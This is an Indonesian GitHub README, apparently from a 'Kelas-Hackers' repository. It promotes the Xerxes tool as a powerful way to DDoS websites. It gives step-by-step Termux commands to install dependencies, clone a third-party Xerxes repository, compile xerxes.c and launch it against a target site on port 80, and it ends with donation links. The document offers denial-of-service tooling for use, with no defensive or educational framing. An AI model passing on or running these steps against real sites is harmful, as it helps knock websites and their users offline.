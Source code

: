 ### Xerxes

# Kelas-Hackers

## Jangan lupa Kunjungi :https://r-protech.blogspot.com

## xerxes
XERXES DoS tool Yang Kuat untuk menDDOS suatu Website

```
# Cara Menggunakan :

# $ pkg update && pkg upgrade
# $ pkg install php
# $ pkg install python2
# $ pkg install mechanize
# $ pkg install openssh
# $ pkg install git
# $ git clone https://github.com/TheSploit/Xerxes
# $ cd Xerxes
# $ gcc xerxes.c -o xerxes
# $ ./xerxes namaweb.com 80
```
<noscript><a href="https://paypal.me/indonimous"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
